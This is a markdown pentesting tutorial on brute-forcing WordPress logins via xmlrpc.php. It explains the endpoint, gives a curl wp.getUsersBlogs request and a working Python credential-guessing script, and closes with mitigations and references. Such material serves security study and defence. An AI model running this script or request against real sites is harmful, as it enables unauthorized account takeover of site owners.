

# Brute Force

### Brute Force via xmlrpc.php

- xmlrpc.php is a WordPress file that allows external programs or apps to interact with a site remotely, such as publishing posts, managing comments, or performing administrative actions. It exists mainly for backward compatibility and remote management, but if left unrestricted, it increases the site’s attack surface and can be exploited by attackers.

- Attackers can send repeated login attempts directly to xmlrpc.php, often batching multiple passwords in a single request, which can bypass protections like rate limits or CAPTCHAs on the standard login page. The server responses clearly indicate whether the credentials are correct, making brute force attacks faster and harder to detect if proper security measures—like 2FA, rate limiting, or restricting access to XML-RPC—are not in place.

The request is below:

```
curl -X POST -d "<methodCall><methodName>wp.getUsersBlogs</methodName><params>
<param><value>admin</value></param><param><value>pass</value></param></params></methodCall>" http://examplewp.com/xmlrpc.php
```

Example:




This request can be turned into a brute force attack with a burp suite intruder, wpscan or a simple script. Here's a simple brute force script:


```python
#!/usr/bin/env python3
import requests
import argparse

parser = argparse.ArgumentParser(description="XML-RPC brute force test (lab only)")
parser.add_argument("-u", "--url", required=True, help="Target WordPress xmlrpc.php URL")
parser.add_argument("-U", "--userlist", required=True, help="File containing usernames")
parser.add_argument("-P", "--passlist", required=True, help="File containing passwords")
args = parser.parse_args()

with open(args.userlist, "r") as f:
    users = [line.strip() for line in f if line.strip()]

with open(args.passlist, "r") as f:
    passwords = [line.strip() for line in f if line.strip()]

if args.url[-3:] != "php":
    if args.url[-1] != "/":
        args.url = args.url + "/"
    args.url = args.url + "xmlrpc.php"

for username in users:
    for password in passwords:
        xml = f"""
        <methodCall>
            <methodName>wp.getUsersBlogs</methodName>
            <params>
                <param><value>{username}</value></param>
                <param><value>{password}</value></param>
            </params>
        </methodCall>
        """
        try:
            response = requests.post(args.url, data=xml, timeout=10)
            if "faultString" not in response.text:
                print(f"[SUCCESS] Username: {username} Password: {password}")
                
                break
            else:
                print(f"[FAIL] {username}:{password}")
        except requests.exceptions.RequestException as e:
            print(f"[ERROR] {username}:{password} - {e}")

```

And this script is more advanced >> https://github.com/aress31/xmlrpc-bruteforcer/

### Protection Against XML-RPC Brute Force
- To protect against brute force attacks via xmlrpc.php, site owners should either completely disable or restrict access to the endpoint if it is not needed, implement strong rate limiting to prevent repeated login attempts, enforce two-factor authentication for all admin accounts, monitor and block suspicious IPs showing repeated failures, and use security plugins or a WAF that specifically covers XML-RPC traffic, ensuring that automated requests cannot bypass standard login protections.

### Referances
- https://hackerone.com/reports/752073
  
- https://blog.sucuri.net/2015/10/brute-force-amplification-attacks-against-wordpress-xmlrpc.html

- https://logicbomb.medium.com/tale-of-3-vulnerabilities-to-account-takeover-44ba631a0304
